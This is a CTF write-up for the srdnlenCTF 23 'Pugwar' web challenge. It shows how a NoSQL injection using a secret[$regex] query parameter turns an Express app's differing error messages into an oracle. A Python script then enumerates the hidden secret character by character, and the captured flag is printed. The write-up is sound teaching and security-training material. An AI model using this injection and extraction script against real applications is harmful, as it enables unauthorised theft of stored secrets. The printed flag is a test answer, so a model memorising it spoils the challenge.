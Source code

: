 +++
author = "Ivan Valentini & Alessandro Mizzaro"
title = "[SrdnlenCTF 23] Pugwar Writeup"
date = "2023-10-30"
description = "Writeup for the Pugwar challenge of the srdnlenCTF 23"
tags = [
    "writeup",
    "ctf",
    "web"
]
+++

## Challenge description

What do you call a cold pug? A pugsicle!

Website: [http://pugwar.challs.srdnlen.it](http://pugwar.challs.srdnlen.it)

Author: [@Octaviusss](https://github.com/Octaviusss)

---

This time we don't have source code. The `X-Powered-By` header returned by the server is equal to `Express` so most likely we are attacking a Node.js application.

The application offers the following functionality:
- Registration/Login
- Creating a pug with a name, ability and secret associated with your user (`/choose-fighters`)
- Edit the ability of a pug that you created (`/fighter-customization`)

In the Hall Of Fame page we see a pug called Mario with its ability. Apparently, he knows how to keep secrets. So our objective is to learn what type of secret is the pug Mario knows!

After having created an pug a big blue button shows up in the homepage that redirects to `/choose-fighters?pugName=A_Name_You_Chose`. A page that allows you to change the ability of the pug you have just created.

We can't edit the ability of the pug we have not created, so if we go to the page `/choose-fighters?pugName=Mario` we get back a message saying `You can't customize other players fighter!`. 

Let's say that you have created a pug like this:

| Property | Value| 
| - | -| 
| Name| Luigi|
| Ability| Do nothing| 
| Secret| Hello | 

If you were to go to the page `/choose-fighters?pugName=Luigi` you would be able to change Luigi's ability, but interestingly if you went to the page `/choose-fighters?pugName=Luigi&secret=Hello` you would be presented with the same page!

But if you went to the page `/choose-fighters?pugName=Luigi&secret=Hell` the website would answer `There are no fighters with that pugName!` so even though the `pugName` is correct, the server answers that it can't find a pug with that name, so the backed is checking every parameter we provide.

Many times Node.js applications use NoSQL databases because they are very easy to set up and work with. However, these types of databases suffer from similar vulnerabilities as SQL databases.

These types of vulnerabilities are [well documented](https://book.hacktricks.xyz/pentesting-web/nosql-injection) online and to check if also the challenge server is vulnerable is as simple as going to `/choose-fighters?pugName=Luigi&secret[$regex]=^Hell`. This will make the server compare with a regex the `secret` value we provided and the one stored in the database. Because the regex we provided matches if the secret starts with `Hell` and the correct secret is `Hello` the server now no longer returns a message saying that `There are no fighters with that pugName!` but instead it will give us the ability to edit the pug ability!

Let's see how we can adapt this finding to get the flag. 
We know that if we try to change the ability of the Mario pug we will get a message saying `You can't customize other players fighter!`, but if we try to go to the page `/choose-fighters?pugName=Mario&secret=Anything` we will get a different error message saying `There are no fighters with that pugName!`.

This opens up the ability for us to differentiate between a correct `secret` and a bad `secret`. And because we can put a regex in the `secret` GET parameter we can enumerate character by character the content of the `secret` field like this:

| Request | Response |
| - | -| 
| /choose-fighters?pugName=Mario&secret[$regex]=^a| There are no fighters with that pugName! |
| /choose-fighters?pugName=Mario&secret[$regex]=^b| There are no fighters with that pugName! |
| ... | ... |
| /choose-fighters?pugName=Mario&secret[$regex]=^s| You can't customize other players fighter! |
| /choose-fighters?pugName=Mario&secret[$regex]=^sa| There are no fighters with that pugName! |
| ... | ... |
| /choose-fighters?pugName=Mario&secret[$regex]=^sr | You can't customize other players fighter! |


## Exploitation

We can automate this process with the following python script:
```python
import requests
import string
import random

URL = "http://pugwar.challs.srdnlen.it"

known = "srdnlen{"

# Register (to get a valid cookie)
s = requests.Session()
creds = ''.join([random.choice(string.ascii_letters) for _ in range(5)])
j = {"username": creds,"password":creds}
s.post(URL+"/register-user", json=j)

# Extract flag
while "}" not in known:    
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_}":
        params = {
            "pugName":"Mario",
            "secret[$regex]": "^" + known + c
        }
        r = s.get(URL+"/fighter-customization", params=params)
        if "There are no fighters with that pugName!" not in r.text:
            known += c
            print(known)

print(known)
```

The flag is:
`srdnlen{pu6S_4nd_n0sql1_wh4t_3l2e}`
